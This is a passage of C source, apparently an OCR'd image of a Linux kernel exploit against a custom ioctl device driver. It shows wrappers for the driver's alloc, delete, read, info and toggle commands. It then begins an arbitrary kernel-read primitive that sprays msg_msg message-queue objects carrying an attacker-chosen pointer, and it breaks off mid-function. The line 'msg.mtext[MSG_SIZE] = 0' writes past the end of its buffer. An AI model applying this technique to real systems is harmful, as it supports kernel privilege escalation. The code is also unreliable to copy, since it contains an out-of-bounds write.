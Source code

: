 ```c
        unsigned long bufsize;
        unsigned int public;
        uid_t owner_uid;
    } info;

    struct toggle {
        unsigned long idx;
    } toggle;

} request_t;

static int fd;
static request_t request;

// Useful interaction functions
int dev_alloc(char *buf, unsigned int public) {
    request.alloc.buf = buf;
    request.alloc.bufsize = strlen(buf);
    request.alloc.public = public;
    return ioctl(fd, CMD_ALLOC, &request);
}

int dev_delete(unsigned long idx) {
    request.delete.idx = idx;
    return ioctl(fd, CMD_DELETE, &request);
}

int dev_read(unsigned long idx, char *buf, unsigned long bufsize) {
    request.read.idx = idx;
    request.read.buf = buf;
    request.read.bufsize = bufsize;
    return ioctl(fd, CMD_READ, &request);
}

int dev_info(unsigned long idx) {
    int res;
    request.info.idx = idx;
    res = ioctl(fd, CMD_INFO, &request);
    return res;
}

int dev_toggle(unsigned long idx) {
    request.toggle.idx = idx;
    return ioctl(fd, CMD_TOGGLE, &request);
}

// Read 32-bit primitive
unsigned int read_int(unsigned long where) {

    // Prepare structure
    struct {
        long mtype;
        char mtext[MSG_SIZE];
    } msg;
    msg.mtype = 1;
    memset(msg.mtext, 0x41, MSG_SIZE - 1);
    msg.mtext[MSG_SIZE] = 0;

    // Set first controllable pointer to <desired_address>-0x14
    unsigned long *ptr = (unsigned long *) msg.mtext;
    ptr[0] = where - UID_OFF;

    // Post message - allocate msg_msg
```